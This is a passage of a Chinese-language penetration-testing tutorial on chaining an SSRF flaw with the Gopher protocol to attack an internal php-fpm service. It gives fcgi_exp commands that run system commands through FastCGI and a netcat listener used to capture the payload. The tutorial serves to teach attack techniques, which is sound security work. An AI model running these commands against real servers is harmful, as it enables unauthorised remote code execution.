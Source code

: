 此时目标主机存在 SSRF 漏洞，并且通过 SSRF 可以探测到目标主机上 9000 端口上运行的 php-fpm。此时，虽然 php-fpm 没有暴露在公网上，但是由于存在 SSRF 漏洞，我们便可以通过 SSRF 漏洞配合 Gopher 协议去打内网的 php-fpm。

### 利用 fcgi\_exp 攻击

-   项目地址：[https://github.com/wofeiwo/webcgi-exploits](https://github.com/wofeiwo/webcgi-exploits)

刚在我们已经演示过了，fcgi\_exp 这个工具主要是用来攻击未授权访问 php-fpm 的，所以一些地方需要自己写脚本转换一下 payload。

使用如下命令进行测试：

```plain
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

此时显然是不行的，因为在配置端口监听的时候，仅允许监听在 127.0.0.1，不存在 php-fpm 未授权访问，所以说不能攻击成功。我们要通过 SSRF 来从目标机内部攻击 9000 端口。

在攻击机上使用 `nc -lvvp 1234 > fcg_exp.txt` 监听 1234 端口来接收 payload，另外开启一个终端使用下面的命令发送 payload

```plain
./fcgi_exp system 127.0.0.1 1234 /var/www/html/index.php "id"
```

[![](assets/1698897074-f833604955f2ab79c184a7b05a914261.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134738-8f2c2e36-b2e5-1.png)

注意这里攻击的端口是上面监听的端口，目的是将 payload 发送到这个端口，运行后可以使用 Ctrl+C 来结束运行，现在就得到了一个 fcg\_exp.txt 的文件，里面是获得的 payload，可以使用 `xxd fcg_exp.txt` 查看其内容：

[![](assets/1698897074-b03f9c526a2f1c9c9babb5bbc07313e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-8fabdcd0-b2e5-1.png)
